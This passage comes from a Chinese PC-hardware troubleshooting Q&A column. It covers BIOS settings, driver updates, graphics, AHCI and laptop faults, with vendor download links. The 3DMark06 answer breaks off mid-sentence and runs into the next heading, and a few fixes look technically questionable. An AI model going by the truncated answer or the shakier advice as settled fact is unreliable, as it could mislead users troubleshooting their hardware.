答：这是由于你的主板与 PS/2 接口键盘存在兼容性问题，建议你更换 USB 口键盘，或者更新主板 BIOS，一般问题可以解决。

## 光驱无法引导系统盘

问：一台计算机使用先锋DVR-217CH刻录机，最近想重新安装Windows XP操作系统，可在主板BIOS设置为光驱启动后，将Windows XP安装光盘放入计算机，光驱不能引导，请问这是什么问题造成的？

答：你应该使用的是盗版基于MS-DOS带有多合一启动菜单的Windows系统安装光盘，由于你的先锋DVR-217CH刻录机是SATA接口的，而SATA接口的光驱无法启动基于MS-DOS的光盘，建议你使用正版没有经过修改过的Windows XP操作系统安装光盘，一般问题可以解决。

## 指点杆无法使用

问：一台ThinkPad X200电脑的指点杆无法使用，请问这是什么问题造成的？

答：这是由于你在主板BIOS中设置了禁用指点杆造成的，建议你启动ThinkPad X200，按F1键进入主板BIOS设置，选择Config→TrackPoint（设置→轨迹钮），将其设置为Automatic（自动），保存退出主板BIOS设置，一般问题可以解决。

## 显示器无法调节清晰度和饱和度

问：一台计算机使用华硕LS201显示器，进入显示器设置菜单后，清晰度和饱和度是灰色，无法进行调节，请问这是什么问题造成的？

答：这是由于你的华硕LS201显示器Splendid（亮度）模式设置为“标准模式”造成的，建议在设置菜单下将Splendid模式设置为风景模式、影院模式、游戏模式、夜间模式等任意模式，清晰度和饱和度选项就可以调节了。

## 游戏显示效果不正常

问：我的笔记本电脑，使用ATI Mobility Radeon HD 4650独立显卡，在玩《保护者》等游戏时，只能使用窗口模式，不能使用全屏模式，请问这是什么问题造成的？

答：该问题可以通过使用AMD ATI Radeon系列显卡催化剂控制中心进行调节，下载地址：http://dl.pconline.com.cn/html_2/2/290/id=42933&pn=0.html，下载后安装该软件，然后右键单击桌面空白处，在弹出的右键快捷菜单中选择“ATI CATALYST(R) Control Center”，在窗口左侧的“图形设置”中双击“笔记本面板属性→属性”，在右侧的“缩放选项”选区中选择“全屏幕”，单击“确定”，问题就可以解决。

> 傻博士有话说：AMD ATI Radeon系列显卡催化剂控制中心通过直观易用的控制面板和直观的操作，使调节显卡性能更加简单。在安装该软件时请不要安装Microsoft .NET Framework，下载地址：http://www.newhua.com/soft/34491.htm。

## DVD 刻录机无法使用

问：最近为一台老机拥有一台DVD光驱，最近添加了一台DVD刻录机，可是安装后无法正常读盘，查看“我的电脑”，没有找到刻录机图标，可在其他计算机上可以正常使用，请问这是什么问题造成的？

答：首先，建议你右键单击“我的电脑”，选择“属性→硬件→设备管理器”，选择“IDE ATA/ATAPI控制器”，右键单击“次要IDE通道”，选择“属性”，单击“高级设置”选项卡，在“传送模式”下拉菜单中选择“仅PIO”，单击“确定”，重新启动计算机，看问题是否可以解决。如果问题仍然存在，建议你更换光驱数据线，一般问题可以解决。

## 硬盘设置不当造成 Ghost 速度下降

问：一台新购买的计算机，用Ghost安装一个3GB的系统，用了几十分钟，可是以前的Ghost这样大小的系统几分钟就可以完成，查看硬盘跳线，没有发现问题，请问这是什么问题造成的？

答：该问题应该是由于主板BIOS中SATA硬盘传输模式设置为兼容模式造成的，建议启动计算机，按DEL键，进入主板BIOS设置，选择Integrated Peripherals→Onboard Device→SATA IDE Combined mode(外围设备参数设置→板载设备→兼容模式)，将其设置为Disable（关闭），按F10键，保存退出主板BIOS设置，一般问题可以解决。

## 无线网卡找不到信号

问：一台笔记本电脑内置802.11n无线网卡，但是公司的无线路由器是802.11g，搜不到信号，请问该如何解决？

答：802.11n无线网卡应该可以向下兼容，不需要特殊的设置，可以连接普通802.11g的无线路由器使用。首先，建议你重新安装网卡驱动，看问题是否可以解决；如果问题仍然存在，建议你将你的路由器的模式选择为Mix mode（混合），将信道设置为“自动”，一般问题可以解决。

## 华硕 Eee PC 接入 USB 设备问题

问：一台华硕Eee PC，接入闪盘等USB2.0设备，系统托盘会显示低速USB设备，请问该如何解决？

答：建议你启动Eee PC，进入主板BIOS设置，找到Advanced（高级），选择OS Installation（系统安装），将其设置为FINISH（完成），保存退出主板BIOS设置，一般问题可以解决。

## CPU 超频能力下降

问：一台计算机的CPU为AMD Athlon64 X2 5400+，一直超频到3.3GHz稳定运行，最近将显卡更换为微星 8800GT显卡以后，CPU超频到3.3GHz就出现死机现象，请问这是什么问题造成的？

答：该问题应该是由于你安装的微星 8800GT显卡造成的，GeForce 8800GT对电源+12V电流输入要求相对比较高，可能会造成电源对你的主板+12V电流强度不足，从而造成主板超频能力下降，建议你更换大功率的电源，一般问题可以解决。

## 开机提示 New CPU Installed

问：一台计算机使用华硕Blitz Extreme主板，最近开机提示：New CPU Installed（侦测到新CPU），可是我没有安装新CPU，请问这是什么原因造成的？

答：首先，建议你重新安装CPU，排除是由于CPU接触不良造成的；如果问题仍然存在，建议你按照主板说明书，清空主板BIOS设置，更换主板BIOS电池，看问题是否可以解决；此外，建议你更新主板BIOS，下载地址：http://support.asus.com.cn/download/download.aspx?SLanguage=zh-cn。

## 键盘灯关机不熄灭

问：一台计算机使用微星945GZM6主板，关闭计算机后，键盘灯与光电鼠标常亮，晚上睡觉很是刺眼，请问该如何解决？

答：该问题是由于你在主板BIOS中设置了键盘或鼠标开机唤醒功能造成的，建议你启动计算机，按DEL键进入主板BIOS设置，选择Power Management Setup→Set Wake Up Events（电源管理→设置唤醒事件），将其设置为Disable（关闭），按F10键保存退出主板BIOS设置，一般问题可以解决。

> 傻博士有话说：在主板BIOS中设置键盘、鼠标等唤醒等功能后，关闭计算机后，电源仍然会为主板提供+5VSB持续供电，从而造成键盘灯、光电鼠标常亮。有的主板在关闭BIOS的Set Wake Up Events后，键盘灯等设备仍然会常亮，这时可以切断电源插座，不但解决了设备常亮问题，而且节约了待机功耗。

## 开机显卡提示

问：一台计算机使用Radeon HD 4800显卡，运行3D游戏时，Windows XP操作系统提示：VPU Recovery已重置，您的图形加速卡退出。

答：VPU Recovery是ATI显卡驱动的一个保护功能，该功能可以在显卡停止响应ATI的驱动程序命令时，重置图形芯片，从而使图形芯片重新响应驱动程序的命令，无须重新启动计算机，降低由于显卡硬件故障导致驱动程序或操作系统崩溃，甚至显卡硬件损坏的可能，因此出现你描述的提示信息，应该是由于你的Radeon HD 4800显卡运行3D游戏时存在温度过高等问题造成的。

建议你首先确定你的显卡不要超频使用，其次，可以更新显卡驱动程序，看问题是否可以解决；如果问题仍然存在，建议你打开计算机主机箱，更换一个大功率的电源，从而排除该故障是供电不足造成的。此外，检查显卡散热风扇是否运转正常，如果显卡风扇停转，建议你更换显卡散热风扇。如果你的Radeon HD 4800显卡是初期购买的，一般工作温度会相对很高，建议你刷新显卡BIOS程序，后续推出的Radeon HD 4800显卡的BIOS一般是经过优化的降温版本。如果问题仍然存在，可以ATI驱动控制面板中取消勾选Enable VPU Recover，一般问题可以解决。

## 播放 MIDI 音频文件不发声

问：一台计算机的主板集成AC'97声卡，平时播放电影、游戏时能够正常发声，但是播放MIDI音频文件时没有声音，请问这是什么问题造成的？

答：播放电影时能够正常发声，说明你的声卡应该不存在硬件问题，该问题应该是由于设置不当造成的，建议你单击“开始”菜单，选择“设置→控制面板→声音或音频设备”选项，单击“音频”选项卡，在“MIDI音乐播放”选区内，单击“音量”按钮，勾选掉“全部静音”，一般问题可以解决。

## 刷新 BIOS 后无法进入操作系统

问：一台微星U100笔记本电脑，刷新最新版本的BIOS后，无法进入操作系统，但是可以进入BIOS设置界面，请问该如何解决？

答：建议你启动计算机，在出现MSI logo画面时按DEL键进入主板BIOS设置，按F9键恢复BIOS默认设置，保存退出主板BIOS设置，一般问题可以解决。

## 无法使用高分辨率显示器

问：一台计算机使用Intel G41主板，板载集成显卡，无法使用1440×900分辨率，重新安装显卡驱动程序，问题仍然没有解决，请问是什么原因造成的？

答：该问题应该是由于你没有安装显示器驱动程序造成的，建议你查询一下你的显示器型号，然后下载最新版本的显示器驱动程序，安装该驱动程序后，一般可以设置显示器分辨率。

## BIOS 刷新慢造成 CPU 温度低

问：一台计算机使用AMD Athlon64 X2 5000+ AM2 65nm的CPU，七彩虹断剑C.A700 Ver1.5主板，用硬件天使测试CPU温度，首次开机CPU温度为50℃，重新启动一下温度变为30℃，请问该如何解决？

答：该问题由于AMI BIOS刷新过慢引起的，建议你更新主板BIOS程序，一般问题可以解决，下载地址：http://tec.colorful.cn/Product/Download.aspx?GUID=07d98bf8-6497-4b98-aae0-b5764f93a8e8#tabs-bios。

## 税控打印机出现乱码

问：一台计算机的并口一直连接一台扫描仪，可以正常使用，最近将扫描仪拆下，连接税控打印机，打印出现乱码，请问这是什么问题造成的？

答：这是由于你的主板BIOS中并口状态设置不正确造成的，建议你启动计算机，按“DEL”键进入主板BIOS设置，选择Integrated Peripherals→Parallel Port Mode，设置为SPP，按F10键保存退出主板BIOS设置，一般问题可以解决。

## 安装大内存为何硬盘容量减小

问：一台计算机一直使用Windows XP操作系统，最近为该机添加了内存，内存由原来的2GB变成4GB，安装Windows Vista操作系统后，C盘容量减少了一些，请问这是内存造成的问题吗？

答：进入“控制面板”，双击“系统”图标，进入“系统属性”窗口，单击“高级”选项卡，在“性能”选区中单击“设置”，进入“性能选项”窗口，单击“高级”选项卡，在“虚拟内存”选区中单击“更改”按钮，进入“虚拟内存”窗口，将“自动管理所有驱动器的分页文件大小”勾选掉，在窗口中部的单选框中选择“自定义大小”，并自行设置虚拟内存大小，单击“确定”一般问题可以解决。

傻博士有话说：分页文件是硬盘上的一块区域，Windows Vista操作系统当作RAM使用，由于Windows Vista操作系统，虚拟内存默认“自动管理所有驱动器的分页文件大小”，它会自动分配硬盘空间作为驱动器的分页文件大小。这里举个例子，当C盘总容量为38.3GB，使用2×1GB内存，Windows Vista操作系统，资源管理器中显示C盘可用空间为32.9GB，分页文件当前分配为2346MB。但在“虚拟内存”中显示C盘可用空间仍为35.0GB。如果使用4×1GB内存，资源管理器中显示C盘可用空间为30.5GB，分页文件当前分配为3370MB。但在“虚拟内存”中显示C盘可用空间仍为35.0GB。

## 使用 Turbo-Key 死机

问：一台计算机使用华硕P5KPL-AM EPU主板，安装华硕自带的Turbo-Key软件后，设置超频模式后，按下电源键后，会出现死机现象，请问这是什么问题造成的？

答：Turbo-Key是利用软硬件结合的办法实现，通过把开关按键和华硕AI Suite软件包/TurboV调节软件联系起来，在软件中对相关超频状态进行设置，最终通过按一下开关按键就可以实现系统超频。通过你的描述，该问题应该是由于主板BIOS存在BUG造成的，建议更新主板BIOS驱动一般问题可以解决。下载地址：http://support.asus.com/download/download.aspx?SLanguage=en-us&model=P5KPL-AM%20EPU。

## 更换显卡玩游戏机器

问：我的电脑使用鑫联GeForce 7300GS显卡，最近更换为耕升9800GT红旗版显卡，在玩游戏时经常出现卡机现象，将该显卡插在其他计算机上可以正常使用，请问这是什么问题造成的？

答：这是由于你原来的鑫联GeForce 7300GS显卡，是通过HSI桥接芯片实现PCI-E接口的，而对这种显卡，一般主板BIOS中都会有针对这类显卡的优化选项，以增加兼容性。而你更换了耕升9800GT红旗版显卡，该显卡不是通过HSI桥接芯片实现PCI-E接口，所以需要在主板BIOS中关闭相应选项，才能使显卡正常工作。具体方法如下：启动计算机，按DEL键进入主板BIOS设置，选择Advanced→PEG Force ×1（高级→PEG Force ×1），将其设置为Disabled（关闭），按F10键保存退出主板BIOS设置，一般问题可以解决。

## 开机为何需要多次

问：一台计算机开机总要按开机键好几次才能启动，有时甚至需要按开机键5~6次，请问这是什么问题造成的？

答：首先，建议你打开计算机主机箱，将除CPU、显卡、硬盘、内存等必要设备外的其他设备拆除，组成最小系统，看问题是否可以解决。其次，建议你检测该问题是否是由于机箱开机键线路老化造成的，将机箱连接在主板上所有连线拔去，根据主板说明书，用螺丝刀短接主板上的开机针脚启动计算机，如果可以启动，那么该问题应该是由于机箱开机键线路老化造成的，建议进行更换一般问题可以解决。如果问题仍然存在，那么说明该问题应该不是由于机箱开机键造成。再次，建议仔细观察主板上位于CPU插座附近的主板供电模块，观察是否有电容爆浆，MOS管过热等情况。最后，在排除上面问题后，如果问题仍然存在，建议你更换电源，排除该故障是否由于电源损坏或功率不足造成。

## 调整 CPU 电压死机

问：一台计算机使用Intel C2D E6300的CPU，华硕P5Q SE PLUS主板，平时可以正常使用，但是进入主板BIOS设置，选择FSB Termination Voltage，将其从1.2V~1.5V中任意选择一个值的时候，就会出现死机现象，请问这是什么问题造成的？

答：根据英特尔提供的Intel C2D CPU白皮书，该CPU的FSB Termination电压最大值为1.26V。而华硕P5Q SE PLUS主板BIOS设置提供1.2V-1.5V的调节选项，调节步进为0.1V。用户只要多调整一步就会使FSB Termination电压超过Intel C2D E6300的规定，这里建议将FSB Termination Voltage（前端总线电压）设置为AUTO（自动），一般问题可以解决。也可通过更新主板BIOS来解决该问题，下载地址：http://support.asus.com/download/download.aspx?SLanguage=en-us&model=P5Q%20SE%20PLUS。

## G41 主板安装独立显卡无显示

问：一台计算机使用七彩虹C.G41H Ver2.2主板的集成显卡，最近为该机添加了一块影驰9600GSO加强版显卡，但是开机出现黑屏问题，将该显卡插入其他计算机，可以正常使用，更换大功率电源问题依旧，请问这是什么问题造成的？

答：七彩虹C.G41H Ver2.2使用的是Intel G41芯片组，在安装独立显卡后，需要调整该主板PCI-E插槽附近的一组跳线，否则主板将继续使用主板上的集成显卡，无法使用独立显卡。七彩虹C.G41H Ver2.2缺省设置在1-2针脚，要使用独立显卡，需要将跳线调整到2-3针脚，一般问题可以解决。

傻博士有话说：目前市面上的一些整合主板比较特殊，使用独立显卡，除了需要跳线设置外，还需要在主板BIOS中屏蔽集成显卡，才能够正常使用。此外，整合主板在安装独立显卡后如果出现问题，仔细翻阅一下主板说明书，看看是否需要手工屏蔽整合显卡，以免造成不必要的麻烦。

## 连接液晶电视为何开机音效缩短

问：一台计算机使用华硕P5QL-VM EPU主板，使用显示器可以正常使用，但是用HDMI接口连接液晶电视后，进入Windows XP操作系统后，Windows启动音效前几秒听不到，请问这是什么问题造成的？

答：你的主板应该使用的是Intel G43芯片组，该问题应该是由于Intel HDMI Audio唤醒延迟造成的，此问题Intel系统已经出台解决方案，但该方案仅在传输48KHz数据流才能生效，而你使用的Windows XP操作系统，只支持44.1KHz的数据传输，建议你安装Windows Vista以上的操作系统，一般问题可以解决。

## 为何 Ghost 无法使用

问：一台新购买的品牌台式机可以正常使用Windows Vista操作系统，由于使用不习惯，想使用Ghost安装Windows XP操作系统，在主板BIOS设置光驱启动后，在出现Ghost的欢迎界面后画面停止，请问这是什么问题造成的？

答：该问题应该是由于主板BIOS中设置了SATA硬盘增强模式造成的，因为在这种模式下，计算机将无法运行在DOS系统下，而GHOST正是基于DOS运行的。建议你启动计算机，按DEL键进入主板BIOS设置，选择Integrated Peripherals→OnChip IDE Device→OnChip Serial ATA Setting（集成设备设置→IDE设备→SATA设备）选择为Combined Mode（兼容模式），按F10保存退出主板BIOS设置，一般问题可以解决。

## 喷墨打印机传动皮带脱落

问：一台喷墨打印机一直使用正常，最近搬动过一次后，打印机开机自检完成后，打印头无法自动移动，打开打印机机身盖后，发现打印机的传动皮带很松，请问该如何解决？

答：该问题应该是由于你搬动打印机前，非正常关闭打印机，造成打印头没有正常移动到右侧固定定位，搬动中的震动，造成打印机传动皮带从导向齿轮上脱落。建议你手动将传动皮带重新安装到导向齿轮，一般问题可以解决。具体方法如下：打开打印机机身盖，将打印机左侧传动皮带放在动力齿轮上的正确位置，右手拉伸传动传送皮带，使传动皮带从一侧开始逐渐绕到导向齿轮上并处于中间位置；传动皮带复位后，用手拨动打印头，如果可以正常移动，说明可以正常使用了。此外安装好传动皮带后，需要重新对打印头进行校准，以免出现打印图像错位问题，将打印机与计算机连接；启动打印机，双击“我的电脑→控制面板→打印机和传真机”，右键单击相应打印机图标，选择“打印首选项”，单击“维护→打印头对齐”，一般问题可以解决。

## 休眠后风扇转速降低

问：一台计算机使用华硕Maximus II Formula主板，操作系统进入休眠状态恢复后，使用华硕PC Probe II监控软件查看，发现电源风扇以及Optional风扇的转速会降低，请问该如何解决？

答：该问题是由于你的主板BIOS版本过低造成的，建议你将你的主板BIOS更新到2202或更新的版本，一般问题可以解决，下载地址：http://support.asus.com/download/download.aspx?SLanguage=en-us&model=Maximus%20II%20Formula。

## 播放蓝光格式电影 CPU 占用率过高

问：一台计算机使用微星G45M主板，播放蓝光格式H.264的电影时，“Windows任务管理器”CPU占用率非常高，请问该如何解决？

答：你的主板应该是采用的应该是Intel G45芯片组，出现该问题的原因应该是由于主板BIOS中，没有开启Intel G45芯片组的硬件加速解码功能造成的，建议你启动计算机时，按“DEL”键进入主板BIOS设置，选择Advanced→PAVP mode（高级→PAVP模式），将其值设置为Lite（优化），按F10键，保存退出主板BIOS设置，一般问题可以解决。

## 玩游戏出现花屏

问：一台计算机使用独立显卡，一直使用正常，最近玩游戏半个小时左右，就会出现花屏现象，重启计算机后一般可以正常使用，但是过半个小时左右，问题再次出现，我的显卡没有超频使用，请问这是什么问题造成的？

答：首先，建议你重新安装显卡驱动程序，看问题是否可以解决，如果问题仍然存在，建议打开计算机主机箱，拔下显卡，用橡皮擦拭显卡金手指，同时将安装在显卡核心上的散热风扇进行清理，并且在核心表面重新涂抹一层散热硅脂，看问题是否可以解决。如果问题仍然存在，建议更换计算机电源，因为不排除功率不足造成花屏问题。

傻博士有话说：许多时候的显示器花屏问题，是由于用户盲目升级显卡驱动程序或安装了一些测试版本的显卡驱动程序造成的。前不久就出现过用户安装了测试版本的ATI显卡驱动程序后，出现运行一些游戏会贴图错误，看视频偏色等问题，所以在出现花屏或贴图错误的问题时，首先确保安装一款相对较老且没有问题的显卡驱动程序是非常重要的。

## 运行 3DMark06 为何报错

问：一台计算机使用AMD 速龙X2 7750的CPU，华硕 M2N68-AM SE2主板，板载集成显卡，使用Windows Vista操作系统，分辨率设置为1024×768，3DMark06可以正常运行，如果将分辨率调节到1280×1024，运行3DMark06几分钟后就会出现Device Lost（设备丢失）错误提示，请问这是什么问题造成的？

答：该问题应该是由于Windows Vista操作系统的TDR（Timeout Detection Recovery）造成的，该## 设置不当无法安装 Windows XP

问：一台微星X-Slim X400笔记本电脑，可以正常使用Windows Vista操作系统，但是无法安装Windows XP操作系统，请问该如何解决？

答：建议你启动计算机，进入主板BIOS设置，选择Advanced（高级），找到AHCI Mode（AHCI模式）选项，将其设置为Disable（关闭），保存退出主板BIOS，一般问题可以解决。

## 液晶显示器为何出现绿色斑点

问：一台液晶显示器一直使用正常，最近开机时出现绿色的斑点，请问这是什么问题造成的？

答：首先，该问题可能是由于显示器DVI或VGA信号线质量较差，抗电磁干扰能力不佳导致，更换质量较好的信号线，一般问题可以解决。其次，该问题也有可能是信号线的DVI或VGA接口没有与显示器或显卡接口插紧造成的，建议重新插接信号线，并检查插头是否有断针问题。再次，也有可能是由于显示器使用时间过长，造成内部元件电路老化，出现该问题，一般只能更换新显示器。

## 内存为何自动降频

问：一台计算机使用一条1GB的DDR3 1333内存，但是开机提示为1066MHz，请问我是否买到了劣质内存？

答：内存自动降频工作是比较常见的一种现象，但是与内存品质优劣无关。这是由于主板BIOS中的内存工作频率设置选项出厂默认设置一般为AUTO（自动），而为了保证系统稳定性，一般主板BIOS会自动选择内存的SPD芯片中较低频率的设定参数。建议你将主板BIOS中的CPU工作频率选项手动设置，具体方法如下：启动计算机，按DEL键，进入主板BIOS选项，选择O.N.E→DRAM Frequency（O.N.E→DRAM频率），将其设置为1333MHz，按F10键，保存退出主板BIOS选择，一般问题可以解决。

## 为何 Windows 7 无法使用“XP 模式”

问：一台计算机一直可以正常使用，最近安装Windows 7 RC版操作系统，无法使用“XP模式”，我的计算机使用AMD羿龙四核9650，请问是不是不支持VT虚拟化技术啊？

答：AMD羿龙四核9650应该支持AMD VT虚拟化技术，AMD平台除了Sempron系列，市面上销售的其他CPU均支持VT（Virtualization Technology）虚拟化技术。出现该问题的原因应该是由于主板BIOS设置不当造成的。建议你启动计算机，按DEL键进入主板BIOS设置，找到CPU Feature→Virtualization（CPU性能→虚拟化），将其设置为Enabled（开启），按F10键保存退出主板BIOS设置即可。

## 开启 AHCI 为何蓝屏

问：一台计算机使用Windows Vista操作系统，开启AHCI，进入Windows Vista操作系统出现蓝屏现象，请问这是什么问题造成的？

答：这应该是由于你安装Windows Vista操作系统时，主板BIOS的SATA接口选择的是IDE模式造成的。首先建议你下载Intel Matrix Storage Manager驱动磁盘创建程序和南桥芯片组Matrix Storage Manager驱动，下载的是：http://dl.pconline.com.cn/download/51779.html，将其解压缩后复制到C:\Windows\System32\Drivers文件夹。进入“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Msahci]，将Start改为0，确定后，重新启动计算机。进入主板BIOS设置，找到Advanced→SATA controller Mode（高级→SATA控制模式），将其设置为AHCI，保存退出主板BIOS设置，应该可以进入Windows Vista操作系统，并提示“正在安装新硬件驱动”安装“南桥芯片组Matrix Storage Manager”驱动，重新启动计算机，一般问题可以解决。

> 傻博士有话说：AHCI是Serial ATA Advanced Host Controller Interface的缩写，中文含义是“串行ATA高级主控接口”，是由Intel主导联合多家公司研发的接口标准。可以让硬盘实现NCQ（Native Command Queue）功能和热插拔技术。支持NCQ技术的硬盘在接到读写指令后，会根据指令对访问地址进行重新排序，减少读取时间，使数据传输更为高效。

## Intel X58 主板使用单条内存故障

问：一台计算机使用Intel酷睿i7 920的CPU，Intel X58芯片组主板，使用3条1GB DDR3内存可以正常使用，但是单独插一条内存无法开机，请问这是什么问题造成的？

答：从你描述的现象看，你使用单条内存时，应该是将内存插在了主板上的“白色”内存插槽上造成的，也就是从靠近CPU插槽的内存插槽数的1、3、5号内存插槽上，从而造成的问题。由于Intel酷睿i7处理器的IMC（内置内存控制器）的限制，要求用户使用单条内存时，必须将内存插在主板上的“蓝色”内存插槽上，也就是从靠近CPU插槽的内存插槽数的2、4、6号内存插槽上，才能够正常使用。

## 笔记本使用电池为何自动断电

问：一台联想IdeaPad Y450笔记本电脑，可以正常使用交流电源，但是使用电池时经常在使用中自动断电，请问这是什么问题造成的？

答：该问题是由于联想IdeaPad Y450的主板BIOS存在偶发性错误，使得笔记本错误判断电池温度超过警戒线数值，出现自动断电问题，建议你升级主板BIOS程序，一般问题可以解决，下载地址：http://consumerdl.lenovo.com.cn/UserFiles/Driver/en/Downloads.

## 使用 HDMI 黑屏

问：一台计算机使用华硕P5Q-EM主板，使用D-Sub接口连接显示器，可以正常使用，使用HDMI连接，显示器没有任何显示，请问这是什么问题造成的？

答：这是由于你的主板BIOS存在BUG，建议你更新主板BIOS至2203或更高版本，一般问题可以解决，下载地址：http://support.asus.com/download/download.aspx?SLanguage=en-us&model=P5Q-EM.

## 无线一体机连接为何显示为脱机

问：一台一体机一直使用有线网络与局域网连接使用，由于最近购买了无线路由器，而这台一体机支持无线网络连接，所以想使用一体机的无线网络模式，但是在一体机上设置无线网络后，电脑中却显示为“脱机”，请问该如何解决？

答：建议你单击“开始”菜单，选择“设置→控制面板”，双击“打印机和传真机”，单击窗口左侧“打印机任务”中的“添加打印机”，输入一体机的无线网络IP地址，Windows XP操作系统就会自动安装驱动。安装完成后，“打印机和传真机”窗口中会增加一个于新的打印机图标，可以正常使用。

## 笔记本播放音频为何有电流声

问：一台计算机使用MSI VR610笔记本电脑，播放音频时出现爆音现象，且伴有电流声，请问这是什么问题造成的？

答：你的MSI VR610笔记本电脑使用的Realtek声效芯片，出现爆音问题，建议你安装最新版驱动程序，一般问题可以解决，下载地址：http://www.realtek.com/downloads。至于电流声问题，建议右键单击任务栏的“小喇叭”图标，在快捷菜单中选择“声音”选项，进入“声音”窗口，单击“播放”选项卡，双击“扬声器”图标，单击“界面”，在PC Beep选区内音频调节到最小，单击“确定”，一般问题可以解决。

## Windows 7 下显示不正常

问：一台计算机一直可以正常使用，最近安装了RTM版Windows 7操作系统，安装完成后进入操作系统，发现桌面是黑色的，且没有任务栏，请问该如何解决？

答：建议你进入“设备管理器”，查看显卡驱动是否正常安装，如果存在问题，建议你手动重新安装显卡驱动程序，看问题是否可以解决。如果问题存在，建议你重新启动计算机，按F8键重新进入Windows 7的“高级启动选项”，选择进入“安全模式”，在“安全模式”重新安装显卡驱动程序，一般问题可以解决。

> 傻博士有话说：Windows 7作为一款全新的操作系统，难免与计算机硬件驱动程序存在一些小兼容问题。所以在使用Windows 7操作系统时，如果出现一些问题，建议重新安装驱动程序，而驱动程序如果在正常模式下无法安装，建议可以进入安全模式安装驱动程序即可。

## 移动硬盘复制大文件报错

问：一块移动硬盘，复制小文件可以正常使用，但是复制1GB以上的大文件时，复制到一半，出现文件复制错误提示，请问是什么问题造成的？

答：建议你将移动硬盘插入计算机机箱背后的USB接口，看问题是否可以解决，如果问题依然存在，建议你打开计算机主机箱，可以将主板上的USB供电跳线从5V SB改为5V，提高USB接口的供电电流。

## 安装 Windows XP 重启

问：最近买了一台华硕K50IJ笔记本电脑，安装Windows XP操作系统后，出现自动重启现象，请问这是什么问题造成的？

答：主要是由于该型号的笔记本电脑的摄像头驱动程序存在BUG造成的，建议下载最新版本的摄像头驱动程序，一般问题可以解决，下载地址：http://support.asus.com/download/download.aspx?model=Camera&f_name=Camera_Chicony_XP_090730.zip&f_type=28&os=17。

## 输出到电视为何显示成黑白

问：一台计算机使用华硕 EN8400GS/HTP/256M显卡，用S端子输出至液晶电视机，电视画面是黑白色，请问该如何解决？

答：这是由于你的液晶电视标准未设定正常造成的。请打开nVidia控制面板，选择“更改信号或HD制式”，在“S视频-NTSC或PAL标准定义电视”中选择你所对应的所在国家，单击“确定”，一般问题可以解决。

## 为何无法识别 2GB 的 SD 卡

问：一台技嘉W511A笔记本电脑，可以正确识别1GB的SD卡，而无法识别2GB以上的SD卡，请问该如何解决？

答：建议你更新一下驱动程序，一般问题可以解决，下载地址：http://www.gigabyte.com.cn/Support/Notebook/FAQ_List.aspx?FAQID=12000。

## 为何不能混合交火

问：一台计算机使用映泰 A780G-M2+ SE主板，一直使用集成显卡，最近购买了七彩虹镭风4650-GD3 CF黄金版 HM512M M14的显卡，准备组建混合交火，但是将显卡装入计算机，却无法使用组建混合交火，请问这是什么问题造成的？

答：你的映泰 A780G-M2+ SE主板使用的应该是AMD 785G芯片组，目前AMD的驱动最多将混合交火开放到HD 3450上，而HD 4000系列显卡目前并不能与785G组建Hybrid CrossFire。而你的显卡使用的就是HD 4000显示芯片，建议你更换采用HD3450显示核心的显卡，一般问题可以解决。

## 硬盘设置不当造成 CPU 占用率为 100%

问：一台老笔记本电脑，一直可以正常使用，最近在一次待机状态下，唤醒计算机后，计算机运行速度非常慢，重新启动计算机问题依旧，“Windows任务管理器”的“性能”选项卡显示“CPU使用”为100%，请问这是什么问题造成的？

答：该问题应该是由于你的笔记本电脑待机功能上存在缺陷，造成超时错误或循环冗余校验错误。因为当硬盘IDE/ATAPI端口的驱动程序累积接收六个或以上的超时错误或循环冗余校验(CRC)错误时，驱动程序会自动将DMA传送模式降为最慢的PIO模式。进入“设备管理器”，双击“IDE ATA/ATAPI 控制器”，右键单击“主要IDE通道”，选择“属性”，单击“高级设置”选项卡，将传输模式由原先的“仅PIO”，更改为“DMA（若可用）”，单击“确定”即可。

## 休眠后为何黑屏

问：一台笔记本电脑，安装Windows Vista操作系统，按下“休眠”按钮，系统发出“啪”的一声，硬盘指示灯熄灭，其他指示灯亮着，显示器黑屏，无论怎么操作全不能唤醒，只能强制重新启动计算机，请问这是什么问题造成的？

答：首先，建议启动计算机，按DEL键进入主板BIOS设置，找到Power Management Setup（电源管理设置）里的ACPI Function（ACPI功能），将其设置为Enable（开启），ACPI Suspend Type（ACPI悬挂类型）设置为S3（STR）。如果硬盘或者光驱的型号比较早，可能是不能很好地支持高级待机模式的问题。如果问题仍然存在，建议你使用“磁盘扫描程序”检查你的硬盘是否存在问题。因为休眠指的是计算机处于关闭状态，但恢复之后所有工作都会完全精确地还原到离开时的状态，此时内存中的内容会保存在磁盘上。如果硬盘存在问题，很有可能使“休眠”失败。

傻博士有话说：我们在使用“休眠”功能时，如果设备驱动器如光驱、闪盘正在使用中，记住进入休眠之前把闪盘拔出。此外，驱动程序兼容问题有时也会造成“休眠”失败，要排除这种问题，建议重新安装操作系统，然后在不安装任何驱动情况下，看“休眠”能否成功，如果成功，依此类推逐一安装设备驱动，直到找出有兼容问题的驱动程序。

## CPU 超频引起蓝屏现象

问：一台计算机使用英特尔 奔腾双核 E5300的CPU，超频使用半年一直很正常，最近电脑经常莫名其妙地出现蓝屏等故障，重装操作系统问题依旧，请问这跟超频CPU有关系吗？

答：首先，建议你考虑散热问题，一些朋友超频CPU后，照常使用原装CPU散热器，或者一些劣质散热器，由于长久工作在高温下，风扇轴承就会出现问题，风扇转速自然也降下来了，从而导致散热不足。此外，灰尘也会造成CPU散热风扇运转不正常，所以建议检查CPU风扇是否可以正常工作。其次，如果你超频时在BIOS中为CPU加了电压，那么建议你将电压调整回原有设置，看问题是否可以解决。再次，CPU超频后由于频率提高，对主板供电的要求也随之提高，因此如果处理器降了电压后故障依旧，那么很有可能主板出现了故障，最典型的就是主板供电模块中的电容出现爆浆，建议更换相同型号电源问题可以解决。

## 显卡金手指氧化造成 PCI-E X16 降级使用

问：一台计算机使用华硕P5K SE/EPU主板，七彩虹逸彩9600GT-GD3 mini精致版显卡，用软件检测硬件信息，发现显卡运行在PCI-E ×4模式下，可我的显卡和主板应该是PCI-E ×16，请问这是什么问题造成的？

答：PCI-E显卡模式识别错误的问题还是比较多的，建议你升级主板和显卡的BIOS，看问题是否可以解决。如果问题仍然存在，怀疑可能是显卡长时间使用，造成显卡金手指氧化物较多，导致接触不良造成的，建议你打开计算机主机箱，拔下显卡，用橡皮擦拭显卡金手指，然后插入主板显卡插槽，重新启动计算机，一般问题可以解决。

## 播放音乐有爆音

问：一台华硕Z53Q23Jr-SL笔记本电脑，播放音频文件时出现爆音现象，请问该如何解决？

